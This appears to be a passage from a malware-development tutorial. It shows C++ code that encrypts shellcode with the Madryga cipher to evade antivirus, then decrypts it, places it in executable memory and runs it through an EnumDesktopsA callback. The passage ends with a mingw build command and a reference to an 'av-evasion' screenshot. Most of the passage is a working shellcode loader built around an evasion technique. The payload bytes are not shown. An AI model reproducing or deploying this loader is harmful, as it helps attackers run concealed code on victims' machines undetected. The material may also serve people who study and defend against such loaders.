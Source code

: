 ```cpp
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");
  
  for (int i = 0; i < pad_len / 8; i++) {
    madryga_encrypt_shellcode(padded + i * 8, 8);
  }

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  for (int i = 0; i < pad_len / 8; i++) {
    madryga_decrypt_shellcode(padded + i * 8, 8);
  }

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

As you can see, I added printing just for checking corectness.    

### demo

Let's go to compile our "malware":     

```bash
x86_64-w64-mingw32-gcc -O2 madryga.c -o madryga.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![av-evasion](/assets/images/90/2023-03-09_14-34.png){:class="img-responsive"}      